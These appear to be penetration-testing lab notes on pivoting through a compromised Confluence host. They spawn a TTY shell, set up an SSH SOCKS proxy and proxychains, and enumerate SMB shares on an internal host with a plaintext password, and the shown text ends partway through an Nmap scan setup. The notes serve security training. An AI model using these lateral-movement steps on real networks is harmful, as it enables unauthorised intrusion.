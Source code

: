 Beginning from CONFLUENCE01 initial access shell

Spawn TTY shell
`python3 -c 'import pty; pty.spawn("/bin/bash")'`

SSH to PGDATABASE01 with _database_admin_ creds

```hlt:1
confluence@confluence01:/opt/atlassian/confluence/bin$ ssh -N -D 0.0.0.0:9999 database_admin@10.4.50.215
<$ ssh -N -D 0.0.0.0:9999 database_admin@10.4.50.215   
Could not create directory '/home/confluence/.ssh'.
```

Use proxychains with smbclient to connect to port 445 on HRSHARES.

Modify proxychains config file to point at SOCKS proxy on CONFLUENCE01.

```hlt:1,10
kali@kali:~$ tail /etc/proxychains4.conf
#       proxy types: http, socks4, socks5, raw
#         * raw: The traffic is simply forwarded to the proxy without modification.
#        ( auth types supported: "basic"-http  "user/pass"-socks )
#
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
socks5 192.168.50.63 9999
```

smbclient connecting to HRSHARES through the SOCKS proxy using Proxychains

```hlt:1,12
kali@kali:~$ proxychains smbclient -L //172.16.50.217/ -U hr_admin --password=Welcome1234
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] Strict chain  ...  192.168.50.63:9999  ...  172.16.50.217:445  ...  OK

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
    scripts         Disk
        Users           Disk      
Reconnecting with SMB1 for workgroup listing.
[proxychains] Strict chain  ...  192.168.50.63:9999  ...  172.16.50.217:139  ...  OK
[proxychains] Strict chain  ...  192.168.50.63:9999  ...  172.16.50.217:139  ...  OK
do_connect: Connection to 172.16.50.217 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
kali@kali:~$ 
```

 Port scan HRSHARES through our SOCKS proxy using _Nmap_
`-sT`-TCP connect
`-n`- Skip DNS resolution
`-Pn`- Skip host discovery 
`--top-ports=20`-Check top 20 ports
